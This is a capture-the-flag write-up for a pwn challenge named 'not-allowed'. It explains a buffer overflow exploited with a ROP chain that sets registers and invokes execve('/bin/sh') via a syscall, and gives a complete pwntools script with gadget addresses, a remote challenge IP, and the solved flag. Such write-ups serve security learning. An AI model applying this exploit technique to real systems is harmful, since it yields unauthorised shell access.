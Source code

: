 ```CTF{4e86532c1b513931d809f9ad01baa4290c8449c4db9628b8ba5b23dbbb932db8}```
### Summary
Buffer overflow. No output functions so we can't leak libc. We can however use `execve("/bin/sh", NULL, NULL)`.
### Details

The buffer overflow is pretty huge so we have a lot to work with.
As I've said there are no output functions so leaking libc is not an option. We can however use syscalls. In order to set rax to the execve syscall id, we use a sequence of ["inc al", "ret"] multiple times until we get it to the value we want. We use various other ROP gadgets to set RSI, RDX to NULL and RDI to the buffer set by the `wish` function placed inside the binary to help us.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./not-allowed")
context.terminal = ["tmux", "splitw", "-h"]
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        # gdb.attach(r, "b *main+128")
    else:
        r = remote("34.141.109.85", 30973)

    return r

def main():
    r = conn()
    offset = 40
    rop = ROP(exe)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    inc_al = 0x00000000004011ce
    zero_rax = 0x0000000000401161
    mov_rsi_rax = 0x00000000004011c4
    shr_edx = 0x0000000000401171
    syscall = 0x00000000004011cc
    EXECVE_IDX = 0x3b
    bash = 0x404070 + 13 # Here you go ... : /bin/bash
    payload = cyclic(offset) +  p64(exe.sym.wish) + p64(zero_rax) + p64(mov_rsi_rax) + p64(shr_edx) + p64(inc_al) * EXECVE_IDX  + p64(pop_rdi) + p64(bash) + p64(syscall)
    print(len(payload))
    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```
